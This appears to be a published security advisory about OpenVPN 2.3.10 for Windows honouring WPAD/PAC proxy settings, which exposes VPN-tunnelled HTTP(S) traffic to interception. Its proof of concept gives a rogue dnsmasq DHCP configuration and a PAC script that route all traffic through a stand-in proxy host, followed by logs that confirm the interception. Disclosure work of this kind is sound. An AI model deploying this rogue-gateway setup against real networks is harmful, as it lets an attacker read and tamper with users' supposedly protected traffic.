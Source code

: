 ```yaml
---
layout: post
title: OpenVPN - HTTP(S) Tunnelled Traffic Interception
category: bugreports
---
```


Windows OpenVPN users connecting to a VPN network from an untrusted/malicious network are at risk of having all VPN tunnelled HTTP(S) traffic intercepted by a 3rd party. OpenVPN on Windows honours the Web Proxy Auto-Discovery (WPAD) settings, configured by the network the client is connecting from, on VPN connections.
<!--more-->

<pre class="bugreport">
Description:        OpenVPN HTTP(S) Tunnelled Traffic Interception
Versions Affected:  OpenVPN 2.3.10 for Windows
Category:           Traffic Interception
Reporter:           Alex Chapman and Paul Stone of Context Information Security

Summary:
--------
Windows OpenVPN users connecting to a VPN network from an untrusted/malicious network are at risk of having all VPN tunnelled HTTP(S) traffic intercepted by a 3rd party. OpenVPN on Windows honours the Web Proxy Auto-Discovery (WPAD) settings, configured by the network the client is connecting from, on VPN connections. WPAD settings configure system-wide HTTP proxies via Proxy Auto-Config (PAC) scripts. This allows a malicious network operator, such as a rogue access point, to proxy all VPN-tunnelled HTTP(S) requests for OpenVPN clients connecting from their network.

Analysis:
---------
The PAC configured proxy can log all traffic, defeating the confidentiality provided by OpenVPN, or modify traffic in transit to affect the integrity of the VPN traffic.

This issue has been confirmed on Windows 10 and Windows 7 with OpenVPN version 2.3.10-I603-x86_64.

WPAD/PAC is enabled by default on all modern desktop versions of Windows. It should be noted that disabling the default "Automatically detect settings" option in the Windows "Local Area Network (LAN) Settings" configuration partially mitigates this issue. However, clients with specifically configured PAC files (using the "Use automatic configuration script" option in the Windows "Local Area Network (LAN) Settings" configuration), may still be at risk.

Proof of Concept:
-----------------
Provided here is a Proof of Concept setup which will act as a network gateway, providing a PAC script via DHCP. The PAC script sets the default system proxy to an HTTP proxy on the internet, in this case a fictitious proxy at proxy.example.com. When a Windows system attaches to this network, WPAD/PAC will configure the system proxy. When the system connects to an OpenVPN end point we can see that the proxy setting are still honoured.

The following dnsmasq configuration can be used to provide a PAC file to Windows hosts via WPAD DHCP:

    interface=eth0
    dhcp-authoritative
    dhcp-range=192.168.100.100,192.168.100.199,10m
    dhcp-option=3,192.168.100.1
    dhcp-option=6,192.168.100.1
    dhcp-option=252,http://proxy.example.com:80/proxy.pac

The dhcp-option=252 option specifies the URL from which Windows hosts will download the PAC script.

The following PAC script can be can be provided to proxy all HTTP(S) traffic through a Web Proxy hosted at proxy.example.com:3128:

  function FindProxyForURL(url, host){
    return "PROXY proxy.example.com:3128";
  }

Windows hosts which connect to a network as configured above will, by default, push all HTTP(S) traffic through the HTTP proxy at proxy.example.com:3128. After an OpenVPN connection is established the WPAD/PAC settings remain in use, forwarding all VPN tunnelled HTTP(S) traffic out of the OpenVPN endpoint through the configured HTTP proxy.

Below are logs which show connections HTTP connections from the above configured network to the WPAD/PAC configured proxy occurring both pre and post VPN connection.

Nginx access logs of Windows and Google Chrome fetching PAC script before connecting to the VPN:

    88.98.79.12 - - [08/Apr/2016:09:33:45 -0400] "GET /proxy.pac HTTP/1.1" 200 215 "-" "WinHttp-Autoproxy-Service/5.1"
    88.98.79.12 - - [08/Apr/2016:09:34:14 -0400] "GET /proxy.pac HTTP/1.1" 200 215 "-" "Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/49.0.2623.110 Safari/537.36"
    88.98.79.12 - - [08/Apr/2016:09:34:15 -0400] "GET /proxy.pac HTTP/1.1" 200 215 "-" "Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/49.0.2623.110 Safari/537.36"

Squid-cache access logs of proxy connections for www.contextis.com before connecting to the VPN:

    1460122463.651    156 88.98.79.12 TCP_MISS/304 475 GET http://www.contextis.com/ - HIER_DIRECT/93.184.216.34 -

Nginx access logs of Windows and Google Chrome fetching PAC script after connecting to the VPN:

    46.28.53.168 - - [08/Apr/2016:09:35:55 -0400] "GET /proxy.pac HTTP/1.1" 200 215 "-" "WinHttp-Autoproxy-Service/5.1"
    46.28.53.168 - - [08/Apr/2016:09:36:00 -0400] "GET /proxy.pac HTTP/1.1" 200 215 "-" "Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/49.0.2623.110 Safari/537.36"
    46.28.53.168 - - [08/Apr/2016:09:36:01 -0400] "GET /proxy.pac HTTP/1.1" 200 215 "-" "Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/49.0.2623.110 Safari/537.36"

Squid-cache access logs of proxy connections for www.contextis.com after connecting to the VPN:

    1460122571.505    151 46.28.53.168 TCP_MISS/304 453 GET http://www.contextis.com/ - HIER_DIRECT/93.184.216.34 -

NOTE: The IP address on the "after" logs have changed to that of the VPN end point.

Timeline
--------
20160414 - Email to security@openvpn.net
20160418 - Initial response and request for more information
20160516 - Issue confirmed
20160902 - Confirmed no fix will be implemented
</pre>
